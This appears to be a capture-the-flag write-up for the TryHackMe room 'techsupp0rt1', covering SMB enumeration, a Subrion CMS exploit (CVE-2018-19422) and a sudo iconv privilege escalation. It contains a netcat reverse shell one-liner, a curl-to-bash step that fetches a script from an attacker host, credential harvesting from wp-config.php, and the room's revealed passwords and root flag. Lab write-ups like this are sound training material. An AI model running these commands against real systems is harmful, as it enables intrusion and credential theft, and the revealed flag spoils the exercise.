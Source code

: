 # Room: [techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)
(*Hack into the scammer's under-development website to foil their plans.*)


## Basic Enum

Nmap / rustcan

```bash
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63
80/tcp  open  http         syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```

- Samba looks intersting :eyes:

```bash
smbclient -N -L \\\\$IP\\   

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	websvr          Disk      
	IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

- And sure enough this share websvr is intersting so let's grab the enter.txt file:

```bash
smbclient -N \\\\10.10.213.5\\websvr

smb: \> ls
  .                                   D        0  Sat May 29 09:17:38 2021
  ..                                  D        0  Sat May 29 09:03:47 2021
  enter.txt                           N      273  Sat May 29 09:17:38 2021

                8460484 blocks of size 1024. 5627800 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)

```

It shows some juicy info :mag:

```bash
cat enter.txt      
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->

```
- The "magical formula" was easy to find thanks to the awesome tool https://gchq.github.io/CyberChef/ !
- So what am I looking for now ? :D probably a way to escalte on Subrion CMS security breach.
- It took me a while to figure out where the panel exactly was, as I was blindly following my gobuster/feroxbuster/dirb whatever results 

<details>
  <summary>Click to reveal the admin pass!</summary>

  ```bash
  Scam2021
  ```
</details>

However the following IP `10.0.2.15` trick me while I was looking for the redirect though:

```bash
curl -IXGET http://techsupp0rt1/subrion -L
HTTP/1.1 301 Moved Permanently
Date: Wed, 20 Apr 2022 20:52:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://techsupp0rt1/subrion/
Content-Length: 314
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 302 Found
Date: Wed, 20 Apr 2022 20:52:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=s1veerpuqnscvc79rk8nvpatea; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=s1veerpuqnscvc79rk8nvpatea; expires=Wed, 20-Apr-2022 21:22:52 GMT; Max-Age=1800; path=/
Location: http://10.0.2.15/subrion/subrion/
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```

And fair enough I found the path I was looking for:

```bash
curl -IXGET http://techsupp0rt1/subrion/panel -L
HTTP/1.1 301 Moved Permanently
Date: Wed, 20 Apr 2022 20:54:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://techsupp0rt1/subrion/panel/
Content-Length: 320
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 20:54:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=iuhncvbabhnafckhvefbasmo6d; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=iuhncvbabhnafckhvefbasmo6d; expires=Wed, 20-Apr-2022 21:24:54 GMT; Max-Age=1800; path=/
X-Robots-Tag: noindex
Vary: Accept-Encoding
Content-Length: 6203
Content-Type: text/html;charset=UTF-8
```
## Exploiting CVE-2018-19422

So I was able to have fun thanks to https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE 

```bash
$ pwd
/var/www/html/subrion/uploads

$ ls -larth /home
total 12K
drwxr-xr-x 23 root     root     4.0K May 28  2021 ..
drwxr-xr-x  3 root     root     4.0K May 28  2021 .
drwxr-xr-x  4 scamsite scamsite 4.0K May 29  2021 scamsite

```

## Stabilizing our shell

I noticed the **scamsite** user home however as I crashed the shell while trying to stabilize it I decided to upload and running it from the victim machine like so :

on attacker machine:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker_ip 4242 >/tmp/f" > lol.sh
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
rlwrap nc -nlvp 4242 
```

on victim machine:
```bash
curl attacker_ip:8000/lol.sh | bash
```

And after stabilizing it I was able to start investagting in a more "convenient" way:

```bash
/var/www/html/wordpress$ grep -iE 'user|pass' wp-con*
wp-config.php:/** MySQL database username */
wp-config.php:define( 'DB_USER', 'support' );
wp-config.php:/** MySQL database password */
wp-config.php:define( 'DB_PASSWORD', 'Im{REDACTED}3!' );
wp-config.php: * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.

```
> The **support** user was also the one we discovered while quickly browsing the /wordpress site.

<details>
  <summary>Click to reveal the DB password!</summary>
  
  ```bash
  ImAScammerLOL!123!
  ```
</details>

## Privesc

I used this password with the scamsite username and...it works :trollface: ! (FYI: It also worked with the **support** user to connect through wordpress admin panel)
So I did the few following steps to get the root flag:

```bash
ssh scamsite@$IP
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
scamsite@TechSupport:~$ man iconv
scamsite@TechSupport:~$ ls /root/root.txt
ls: cannot access '/root/root.txt': Permission denied
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
851b{REDACTED}790b  -

```

Thanks to [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/iconv/#sudo) :point_left:

<details>
  <summary>Click to reveal the root flag!</summary>
  
  ```bash
  851b8233a8c09400ec30651bd1529bf1ed02790b 
  ```
</details>
 
Houra :partying_face:



### Useful Links:

[rustscan](https://github.com/RustScan/RustScan)

[revshells](https://www.revshells.com/)

[gtfobins](https://gtfobins.github.io/)

[h3v0x/CVE-2018-19422-SubrionCMS-RCE](https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE)
